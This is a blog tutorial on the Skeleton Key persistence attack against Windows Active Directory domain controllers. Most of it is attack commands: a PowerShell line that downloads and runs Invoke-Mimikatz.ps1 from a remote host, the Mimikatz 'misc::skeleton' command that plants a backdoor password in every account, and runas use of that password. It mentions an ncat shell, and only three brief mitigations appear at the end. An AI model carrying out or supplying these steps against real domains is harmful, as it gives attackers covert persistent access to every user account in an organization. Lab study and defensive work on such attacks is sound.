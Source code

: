 
In this article, I will explain the third technique for establishing persistence on the Domain Controller
# Skeleton Key Attack
## What is the Skeleton Key technique

The Skeleton Key technique involves injecting a backdoor password into the authentication process of Microsoft Windows Active Directory domain controllers. This backdoor password, typically generated by tools like Mimikatz, allows an attacker to bypass normal authentication mechanisms, effectively granting them access to any account within the Active Directory. The original passwords of the affected accounts remain intact and functional, while the backdoor password provides an additional means of unauthorized access for the attacker.
## Or In short
The idea behind this technique is to convert all passwords of users embedded in the Active Directory into another password, which is Mimikatz, while keeping their original passwords active.

### Prerequisites

	 - attacker having obtained Domain Admin rights. 
	 - Mimikatz is then executed on a Domain Controller.
	 - rebooting a Domain Controller will eliminate the malware.

I will do this attack from a Windows machine 

# Exploitation

we need upload Mimikatz in windows machine you can use Mimikatz.exe or Mimikatz.ps1 but i use Mimikatz.ps1

[![Image Alt Text](/assets/img/posts/Persistence-Skeleton-Key/2024-02-14-1.png)](https://r00tven0m.github.io/)

Now I will execute the Mimikatz tool using this command:

```powershell
 iex(New-Object Net.WebClient).DownloadString('http://192.168.56.1/Invoke-Mimikatz.ps1')
```
[![Image Alt Text](/assets/img/posts/Persistence-Skeleton-Key/2024-02-14-2.png)](https://r00tven0m.github.io/)
After that, we execute  this command:

```powershell
Invoke-Mimikatz -Command '"misc::skeleton"'
```
[![Image Alt Text](/assets/img/posts/Persistence-Skeleton-Key/2024-02-14-3.png)](https://r00tven0m.github.io/)

Now, a password has been added to each user, which is "mimikatz", while ensuring the effectiveness of their previous passwords.
Yes, with the Skeleton Key technique implemented, you can access a PowerShell session for the user `newadmin` for example, who is a member of the Domain Admins group, using the "mimikatz" password.

[![Image Alt Text](/assets/img/posts/Persistence-Skeleton-Key/2024-02-14-4.png)](https://r00tven0m.github.io/)

[![Image Alt Text](/assets/img/posts/Persistence-Skeleton-Key/2024-02-14-5.png)](https://r00tven0m.github.io/)

[![Image Alt Text](/assets/img/posts/Persistence-Skeleton-Key/2024-02-14-6.png)](https://r00tven0m.github.io/)

[![Image Alt Text](/assets/img/posts/Persistence-Skeleton-Key/2024-02-14-7.png)](https://r00tven0m.github.io/)

If the Skeleton Key technique has been successfully applied and a backdoor password like `mimikatz` has been added to all user accounts in the Active Directory, including `newadmin`, then you can indeed use `runas` to execute a PowerShell session with the privileges of the `newadmin` user or any other user in the Active Directory.

Here's an example command to run a PowerShell session with the newadmin user's privileges:

```powershell
runas /user:cbank\abdessalam.louhidi "powershell.exe"
```

# Another Way if you need get ncat session 

[![Image Alt Text](/assets/img/posts/Persistence-Skeleton-Key/2024-02-14-8.png)](https://r00tven0m.github.io/)

# Some Mitigating Skeleton Key

1- `Monitor and Analyze Active Directory Logs`: Monitor Active Directory logs for suspicious activities, such as unusual login attempts, privilege escalations, or changes to user accounts. Analyzing these logs can help detect and respond to potential Skeleton Key attacks.

2- `Use Endpoint Detection and Response (EDR) Solutions`: Deploy endpoint detection and response solutions that can detect and respond to suspicious activities on endpoints, including attempts to execute Mimikatz or other malicious tools.

3 - Run lsass.exe as a protected process, it forces an attacker to load a kernel mode drive


We have reached the  end of the article.